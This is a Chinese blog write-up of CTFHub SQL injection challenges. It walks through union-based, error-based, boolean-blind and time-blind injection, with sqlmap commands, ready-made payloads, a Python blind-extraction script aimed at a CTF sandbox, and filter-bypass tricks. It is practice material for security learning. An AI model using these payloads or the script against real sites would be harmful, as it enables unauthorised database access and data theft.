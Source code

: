 +++
date = '2025-07-28T16:48:12+08:00'
draft = false
title = 'CTFHub之SQL注入'
categories = ['WriteUP']
tags = ['WriteUP', 'CTFHub']

+++

> 在开始前，我们需要理解一个 SQL 注入中最常用的词汇 —— **构造闭合** 。

<!--more-->

## 1、整数型注入

- 可以使用 sqlmap 工具直接处理。
```bash
# 查询所有数据库
sqlmap -u http://xxx/?id=1 --dbs 
# 查看各个数据库的所有表
sqlmap -u http://xxx/?id=1 -D '数据库名' --tables
# 查看指定数据库的指定表的字段
sqlmap -u http://xxx/?id=1 -D '数据库名' -T '表名' --dump
```

以下是常规方法。
- 随便输入一个 `1`，得到返回，测试可知存在两个注入点。
- 使用 `order by` 确定列数，方便后续注入。
- 爆破当前数据库。
```SQL
/?id=-1 union select 6,database()
```
- 爆破所有库
```SQL
/?id=-1 union select 1,group_concat(schema_name) from information_schema.schemata
```
- 爆破该数据库中的所有表。
```SQL
-- 要将数据库名sqli转换成十六进制的格式
/?id=-1 union select 6,group_concat(table_name) from information_schema.tables where table_schema=0x73716C69
```
- 爆破 flag 表中的字段，同理。
```SQL
/?id=-1 union select 6,group_concat(column_name) from information_schema.columns where table_name=0x666C6167
```
- 查询 sqli 库中 flag 表中字段 flag 的值。
```SQL
/?id=-1 union select 6,flag from sqli.flag
```
- 然后就得到 Flag 了！

## 2、字符型注入

- 当然，这题也可以直接交给 sqlmap 去注入。
- 正常做法和整数型注入差不多，只不过这里是 `id='1'`，为了不受最后的单引号影响，于是我们要将它注释掉。
- 还是先爆破当前数据库。
```SQL
/?id=-1' union select 6,database()--+
```
- 再爆破表。
```SQL
/?id=-1' union select 6,group_concat(table_name) from information_schema.tables where table_schema=0x73716C69--+
```
- 再爆破字段。
```SQL
/?id=-1' union select 6,group_concat(column_name) from information_schema.columns where table_name=0x666C6167--+
```
- 最后爆破字段值。
```SQL
/?id=-1' union select 6,flag from sqli.flag--+
```
- 成功获得 Flag！

## 3、报错注入

### 利用extractvalue来xpath报错
```Shell
1 and (select extractvalue(1, concat(0x7e, (select database()))))
1 and (select extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema= 'sqli'))))
1 and (select extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name= 'flag'))))
1 and (select extractvalue(1, concat(0x7e, (select flag from flag))))
```
### 利用updatexml来xpath报错
```Shell
1 and (select updatexml(1, (concat (0x7e, (select database()))),1))
1 and (select updatexml(1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli'))),1)) 
1 and (select updatexml(1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag'))),1)) 
1 and (select updatexml(1, concat(0x7e, (select flag from flag)), 1))
```
### 利用floor来group by主键重复报错
```Shell
1 union select count(*), concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1), floor(rand(0)*2)) x from news group by x
1 union select count(*), concat((select column_name from information_schema.columns where table_name='flag' limit 0,1), floor(rand(0)*2)) x from news group by x
1 union select count(*), concat((select flag from flag limit 0,1), floor(rand(0)*2)) x from news group by x
```

## 4、布尔盲注
- 使用 `length()` 获取长度信息。
```SQL
SELECT username,password FROM users WHERE id = 1 AND length(username)=1;
```
- `SUBSTR()` 函数用于截取字符串中的一部分。利用 `SUBSTR()` 函数，逐步截取数据库中的某个数据。
```SQL
SELECT username,password FROM users WHERE id = 1 AND SUBSTR(username,1,1) = '?';
```
- 来自 CSDN 的 Python 脚本。
```Python
import requests
 
urlOPEN = 'http://xxx.sandbox.ctfhub.com:10800' #换成自己环境的url
starOperatorTime = []
mark = 'query_success'
 
def database_name():
    name = ''
    for j in range(1,9):
        for i in 'sqcwertyuioplkjhgfdazxvbnm':
            url = urlOPEN+'/?id=if(substr(database(),%d,1)="%s",1,(select table_name from information_schema.tables))' %(j,i)
            # print(url+'%23')
            r = requests.get(url)
            if mark in r.text:
                name = name+i
                print(name)
                break
    print('database_name:',name)
 
 
def table_name():
    list = []
    for k in range(0,4):
        name=''
        for j in range(1,9):
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN+'/?id=if(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
                # print(url+'%23')
                r = requests.get(url)
                if mark in r.text:
                    name = name+i
                    break
        list.append(name)
    print('table_name:',list)
 
 
def column_name():
    list = []
    for k in range(0,3): #判断表里最多有4个字段
        name=''
        for j in range(1,9): #判断一个 字段名最多有9个字符组成
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url=urlOPEN+'/?id=if(substr((select column_name from information_schema.columns where table_name="flag"and table_schema= database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
                r=requests.get(url)
                if mark in r.text:
                    name=name+i
                    break
        list.append(name)
    print ('column_name:',list)
 
 
def get_data():
    name=''
    for j in range(1,50): #判断一个值最多有51个字符组成
        for i in range(48,126):
            url=urlOPEN+'/?id=if(ascii(substr((select flag from flag),%d,1))=%d,1,(select table_name from information_schema.tables))' %(j,i)
            r=requests.get(url)
            if mark in r.text:
                name=name+chr(i)
                print(name)
                break
    print ('value:',name)
 
 
if __name__ == '__main__':
    database_name()
    table_name()
    column_name()
    get_data()
```

## 5、时间盲注
- `sleep()` 函数是时间盲注的核心。
```SQL
SELECT * FROM users WHERE username='admin' AND IF(SLEEP(5),1,0)
```
- 利用延时函数，如 `SLEEP()` 函数或者 `BENCHMARK()` 函数，来判断是否注入成功。
```SQL
SELECT username,password FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(username,1,1))=97,SLEEP(5),0)
```
- 利用数据库中的时间戳函数，如 `UNIX_TIMESTAMP()` 函数来构造延时语句。
```SQL
SELECT username,password FROM users WHERE id = 1 AND IF(UNIX_TIMESTAMP()>1620264296,SLEEP(5),0)
```
## 空格绕过
- 将空格替换成 `/**/` 即可，利用 SQL 的注释功能来进行绕过。

## 等号绕过
- 将等号替换成 `like` 即可。